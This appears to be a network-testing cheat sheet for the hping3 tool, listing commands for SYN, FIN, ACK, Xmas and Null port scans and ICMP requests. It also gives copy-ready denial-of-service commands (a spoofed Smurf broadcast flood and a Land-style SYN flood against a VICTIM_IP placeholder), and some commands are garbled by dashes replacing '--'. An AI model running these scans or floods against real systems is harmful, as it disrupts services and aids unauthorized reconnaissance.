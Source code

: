 **Checking port:** Here hping3 will send a Syn packet to a specified port (80 in our example). We can control also from which local port will start the scan (5050).

```
hping3 — traceroute -V -S -p 80 -s 5050 testpage.com
```

**Other types of ICMP:** This example sends a ICMP address mask request ( Type 17 ).

```
hping3 -c 1 -V -1 -C 17 testpage.com
```

for testing other ICMP types check out the [`ICMP`](broken-reference/) protocol section.

**Other types of Port Scanning:** First type we will try is the FIN scan. In a TCP connection the FIN flag is used to start the connection closing routine. If we do not receive a reply, that means the port is open. Normally firewalls send a RST+ACK packet back to signal that the port is closed.

```
hping3 -c 1 -V -p 80 -s 5050 -F testpage.com
```

**Ack Scan:** This scan can be used to see if a host is alive (when Ping is blocked for example). This should send a RST response back if the port is open.

```
hping3 -c 1 -V -p 80 -s 5050 -A testpage.com
```

**Xmas Scan:** This scan sets the sequence number to zero and set the URG + PSH + FIN flags in the packet. If the target device’s TCP port is closed, the target device sends a TCP RST packet in reply. If the target device’s TCP port is open, the target discards the TCP Xmas scan, sending no reply.

```
hping3 -c 1 -V -p 80 -s 5050 -M 0 -UPF testpage.com
```

**Null Scan:** This scan sets the sequence number to zero and have no flags set in the packet. If the target device’s TCP port is closed, the target device sends a TCP RST packet in reply. If the target device’s TCP port is open, the target discards the TCP NULL scan, sending no reply.

```
hping3 -c 1 -V -p 80 -s 5050 -Y testpage.com
```

**Smurf Attack:** This is a type of denial-of-service attack that floods a target system via spoofed broadcast ping messages.

```
hping3 -1 — flood -a VICTIM_IP BROADCAST_ADDRESS
```

**DOS Land Attack:**

```
hping3 -V -c 1000000 -d 120 -S -w 64 -p 445 -s 445 — flood — rand-source VICTIM_IP
```

#### useful hping3 options:

```
# MODE   default mode     TCP
  -0  --rawip      RAW IP mode
  -1  --icmp       ICMP mode
  -2  --udp        UDP mode
  -8  --scan       SCAN mode.
                   Example: hping --scan 1-30,70-90 -S www.target.host
  -9  --listen     listen mode
  -i  --interval  wait (uX for X microseconds, for example -i u1000)
  --fast      alias for -i u10000 (10 packets for second)
  --faster    alias for -i u1000 (100 packets for second)
  --flood	   sent packets as fast as possible. Don't show replies.
  -q  --quiet     quiet
  -I  --interface interface name (otherwise default routing interface)
```